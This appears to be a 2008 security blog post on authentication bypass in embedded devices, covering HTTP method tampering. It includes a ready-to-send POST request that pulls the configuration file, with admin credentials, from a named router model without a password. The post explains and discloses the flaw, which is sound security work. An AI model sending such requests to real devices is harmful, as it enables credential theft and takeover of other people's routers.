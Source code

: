 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 3)
author: pagvac
date: Sat, 16 Feb 2008 08:08:17 GMT
template: post.jade
---
```


We move on with the 3rd kind of authentication bypass bug. You may want to familiarize yourself with the previous two entries [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-1) and [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-2), before you continue.

## Unchecked HTTP methods

A device that is vulnerable to this issue, only performs an authentication check (i.e.: is the password being submitted with a request via basic authentication?) when the request is performed using a certain HTTP method. For instance, most devices have a feature to backup the config file which contains all the configuration settings including admin credentials. Let's say that when the admin user clicks on the "backup configuration" button, a GET request such as the following is submitted by the browser:

```http
GET /settings.cfg HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-GB; rv:1.8.1.11) Gecko/20071127 Firefox/2.0.0.11
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: Keep-Alive
Referer: http://192.168.1.1/router-settings/
Authorization: Basic YWRtaW46cGFzc3cwcmQ=
```

However, the logic of the device is flawed and allows attackers to save the config file without a password by changing the HTTP method from GET to POST. This very same vulnerability is [present](http://www.securityfocus.com/archive/1/440405) on the BT Voyager 2091 Wireless ADSL router which allows attackers to save the config file without providing username/password:

```http
POST /psiBackupInfo HTTP/1.1
Host: 192.168.1.1
Connection: close
Content-Length: 0
```
